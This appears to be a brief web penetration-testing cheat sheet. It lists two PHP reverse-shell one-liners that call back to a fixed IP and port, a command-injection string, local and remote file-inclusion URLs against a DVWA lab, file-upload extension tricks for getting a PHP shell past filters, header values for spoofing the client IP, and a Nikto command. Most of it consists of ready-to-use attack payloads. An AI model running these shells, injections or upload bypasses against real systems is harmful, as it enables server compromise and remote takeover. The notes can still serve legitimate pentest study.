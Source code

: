 # WEB

PHP
===

Shells
------

* Reverse shell one-liners:
```
<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>  
<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>
```

* [Weevely](https://github.com/epinna/weevely3/) - great command line web shell with good features


Command Injection
-----------------

* Try to use pipe, ampersands, etc. Example: `1 | uname -a & users & id`


Local File Inclusion
--------------------

Local: `http://localhost/dvwa/vulnerabilities/fi/?page=include.php`  
Remote: `http://localhost/dvwa/vulnerabilities/fi/?page=http://google.com/robots.txt`

File Upload
-----------

* Image upload restrictions [bypass](http://hackers2devnull.blogspot.lt/2013/05/how-to-shell-server-via-image-upload.html):

```
shell.jpg.php (satisfies as check for jpg only)
shell.jpg.PhP (obfuscation)
shell.php;.jpg (sometimes can ignore whats after ";")
shell.php%0delete0.jpg (the infamous NULL byte which comments out trailing text, remove the word delete so the zeros join together, blogspot strips this string!)
shell.php.test (defaults to first recognised extension ignoring "test")
shell.php.xxxjpg (still ends in .jpg, but not recognised extension so will default to php!)
.phtml (a commonly used php parsed extension often forgotten about!)
.php3/.php4/.php5 (valid PHP extensions possibly left out of extension blacklists)
```

* [evilarc](https://github.com/ptoomey3/evilarc) - creates zip files with dir traversal characters in their embedded path


IP SPOOFING
===========

Accept: */*
x-forwarded-for: 127.0.0.1  
x-remote-IP: 127.0.0.1  
x-originating-IP: 127.0.01  
x-remote-addr: 127.0.0.1  
x-remote-ip: 127.0.0.1  
x-forwarded-for 127.0.0.1  

Sometimes referer needs to be deleted in the request.

Nikto
=====

Simple scan:

```
perl nikto.pl -host http://www.example.com
```
